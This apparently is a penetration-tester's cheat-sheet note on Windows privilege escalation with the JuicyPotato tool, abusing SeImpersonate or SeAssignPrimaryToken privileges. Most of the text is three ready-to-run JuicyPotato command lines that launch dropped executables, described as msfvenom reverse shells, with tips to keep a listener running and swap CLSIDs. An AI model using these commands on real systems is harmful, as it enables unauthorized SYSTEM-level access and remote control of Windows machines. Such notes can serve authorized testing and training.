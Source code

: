 ## --> can use if SeImpersonate or SeAssignPrimaryToken are set


https://github.com/ohpe/juicy-potato/releases
--> Run an msfvenom reverse shell .exe:
(Note, the "-l" is required but doesn't matter)
```
.\JuicyPotato.exe -t * -p C:\\Users\\Public\\Downloads\a.exe -l 5555
```

## Another example of the same thing:

```
.\JuicyPotato.exe -t * -p C:\\Users\\Public\\Downloads\\r.exe -l 3333
```

--> Basically JuicyPotato always creates a new process, so make sure you have a reverse shell going


## Another way
--> You always need the full path:
--> Sometimes your CLSID will not work, just pick a new one at:
https://ohpe.it/juicy-potato/CLSID/

.\JuicyPotato86.exe -l 6666 -p C:\wamp\www\PHP\fileManager\collectives\tmp\fileManager\collectives\DG0\test\r32.exe -t * -c '{03ca98d6-ff5d-49b8-abc6-03dd84127020}'